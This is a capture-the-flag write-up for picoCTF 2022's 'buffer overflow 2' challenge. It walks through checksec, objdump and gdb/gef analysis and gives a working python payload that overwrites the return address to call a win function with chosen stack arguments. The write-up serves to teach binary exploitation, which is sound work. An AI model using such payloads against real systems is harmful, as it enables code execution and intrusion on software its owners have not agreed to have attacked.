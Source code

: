 # buffer overflow 2
## Description
- **Tags**:
    - picoCTF 2022
    - Binary Exploitation
    - gets
    - arguments_on_the_stack

- **Author**:
    - Sanjay C
    - Palash Oswal

Control the return address and arguments

This time you'll need to control the arguments to the function you return to! Can you get the flag from this [program](https://artifacts.picoctf.net/c/345/vuln)?
You can view source [here](https://artifacts.picoctf.net/c/345/vuln.c). And connect with it using

```
nc saturn.picoctf.net 57759
```

## Exploration

Taking a look at the architecture and protections on the binary it seems we're using x86 with no PIE, so we should be able to do a ret2win style exploit.

```
$ checksec vuln{,.elf}
[*] '/home/keithjh/src/CTF/pico/2022/Binary_Exploitation/buffer_overflow_2/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] '/home/keithjh/src/CTF/pico/2022/Binary_Exploitation/buffer_overflow_2/vuln.elf'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

As the challenge title and description suggest, however, there will be additional complexity in also controlling the arguments passed to the function. First we'll identify what values will be necessary, either by looking at the source or the binary (which could also be better done by dynamic analysis running under a debugger).

```
$ grep '!=' vuln.c
  if (arg1 != 0xCAFEF00D)
  if (arg2 != 0xF00DF00D)

$ objdump --disassemble=win vuln.elf | grep cmp
 80492c8:       83 7d f4 00             cmpl   $0x0,-0xc(%ebp)
 804930c:       81 7d 08 0d f0 fe ca    cmpl   $0xcafef00d,0x8(%ebp)
 8049315:       81 7d 0c 0d f0 0d f0    cmpl   $0xf00df00d,0xc(%ebp)
```

And lastly we still need to now the location of the function we're jumping to:
```
$ readelf -s vuln.elf | grep win
    64: 08049296   162 FUNC    GLOBAL DEFAULT   15 win
```

Now we can start as usual to find the offset
```
$ gdb vuln.elf
gef➤  pattern create 120
[+] Generating a pattern of 120 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab
[+] Saved as '$_gef2'
gef➤  r <<< aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab
gef➤  pattern search $eip
[+] Searching for '$eip'
[+] Found at offset 112 (little-endian search) likely
[+] Found at offset 304 (big-endian search)
```

And craft a payload that is the overflow, EIP, padding, and finaly the argument values we need. Note that x86 passes arguments on the stack, hence why we can include them directly in the payload. If this were x64 it would be slightly more complicated as we'd need to find ways to provide the arguments via registers.
```
$ python3 -c 'import sys; import struct; sys.stdout.buffer.write(b"A"*112 + struct.pack("<I", 0x8049296) + struct.pack("<I", 0x0) + struct.pack("<I", 0xCAFEF00D) + struct.pack("<I", 0xF00DF00D))' | ./vuln.elf
Please enter your string:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��
picoCTF{REDACTED}
```

And finally a bonus script to tie it all together
```
$ ./exploit_vuln.py
picoCTF{REDACTED}
```